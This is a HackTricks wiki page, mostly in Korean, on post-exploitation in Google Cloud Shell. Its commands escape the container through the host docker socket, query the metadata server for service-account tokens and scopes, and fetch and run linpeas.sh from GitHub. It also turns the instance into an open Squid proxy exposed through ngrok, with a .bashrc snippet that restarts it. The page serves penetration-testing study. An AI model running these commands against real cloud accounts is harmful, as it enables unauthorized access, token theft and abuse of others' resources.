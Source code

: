 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Cloud Shell에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Google Cloud Shell은 컨테이너 내에서 실행되므로, 다음을 통해 **호스트로 쉽게 탈출할 수 있습니다**: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

이것은 구글에 의해 취약점으로 간주되지 않지만, 해당 환경에서 발생하는 일에 대한 더 넓은 시각을 제공합니다.

게다가, 호스트에서 서비스 계정 토큰을 찾을 수 있다는 점에 유의하세요:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

다음 범위와 함께:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEAS로 메타데이터 열거하기:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions)를 사용한 후 **권한이 발견되지 않았습니다**...

### 프록시로 사용하기

구글 클라우드 셸 인스턴스를 프록시로 사용하려면 다음 명령어를 실행해야 합니다(또는 .bashrc 파일에 삽입하십시오):
```bash
sudo apt install -y squid
```
Just for let you know Squid is a http proxy server. Create a **squid.conf** 파일에 다음 설정을 추가하세요:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** 파일을 **/etc/squid**로 복사합니다.
```bash
sudo cp squid.conf /etc/squid
```
마지막으로 squid 서비스를 실행합니다:
```bash
sudo service squid start
```
ngrok를 사용하여 프록시를 외부에서 사용할 수 있도록 하십시오:
```bash
./ngrok tcp 3128
```
```markdown
tcp:// URL를 복사한 후 실행합니다. 브라우저에서 프록시를 실행하려면 tcp:// 부분과 포트를 제거하고 포트를 브라우저 프록시 설정의 포트 필드에 넣는 것이 좋습니다 (squid는 http 프록시 서버입니다).

시작 시 더 나은 사용을 위해 .bashrc 파일에는 다음 줄이 있어야 합니다:
```
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
The instructions were copied from [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). 이 페이지에서 Cloud Shell에서 모든 종류의 소프트웨어(데이터베이스 및 심지어 Windows)를 실행할 수 있는 다른 기발한 아이디어를 확인하세요.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
